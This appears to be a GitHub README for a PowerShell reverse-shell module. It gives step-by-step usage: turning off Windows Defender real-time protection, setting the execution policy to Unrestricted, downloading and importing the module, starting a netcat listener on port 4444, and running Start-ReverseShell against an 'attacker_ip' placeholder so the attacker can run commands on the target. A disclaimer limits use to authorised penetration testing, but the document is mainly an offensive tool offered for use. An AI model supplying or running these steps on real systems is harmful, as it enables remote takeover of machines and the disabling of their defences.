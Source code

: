 # ReverseShell - PowerShell
# Author: okpalandev
# Version: 1.0
# Date: 2024-03-24

## Disclaimer
This script is designed for educational and penetration testing purposes only. Do not use this script on systems that you do not have permission to test. The author of this script is not responsible for any damage caused by the use of this script.

## Description
This script is a reverse shell that uses PowerShell to connect to a remote host. The script is designed to be run on the target machine and will connect back to the attacker's machine. The script can be run on any Windows machine that has PowerShell installed. The script will open a connection to the attacker's machine and allow the attacker to execute commands on the target machine. The script is designed to be used for penetration testing and should only be used on systems that you have permission to test.

## Usage
To use the script, you will need to modify the IP address and port number in the script to match the IP address and port number of the attacker's machine. You will also need to run the script on the target machine. Once the script is running on the target machine, it will connect back to the attacker's machine and allow the attacker to execute commands on the target machine.

## Installation
To install the script, you can download the script from the GitHub repository and save it to your local machine. You can then import the script into PowerShell and run the script on the target machine.

## Requirements
1) Disable Windows Defender Real Time Protection  or any other Antivirus 
2) Add to Policy Execution
3) Run a Terminal as Administrator

```powershell
PS C:\> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser 
``` 

## Example
```powershell
PS C:\> Invoke-WebRequest -Uri "https://raw.githubusercontent.com/okpalandev/PSModules/ReverseShell/ReverseShell.psm1" -OutFile "ReverseShell.psm1"
```

```powershell
PS C:\> Import-Module .\ReverseShell.psm1
```
Then on the attacker machine, you can listen for the connection using Netcat or any other tool that can listen for incoming connections on the specified port.

```bash
$ nc -lvp 4444
```
    
Finally, you can start the reverse shell on the target machine by running the following command:

```powershell
PS C:\> Start-ReverseShell -IPAddress "attacker_ip" -Port " 4444 " 
```



## License
This script is licensed under the MIT License. See the LICENSE file for more information.

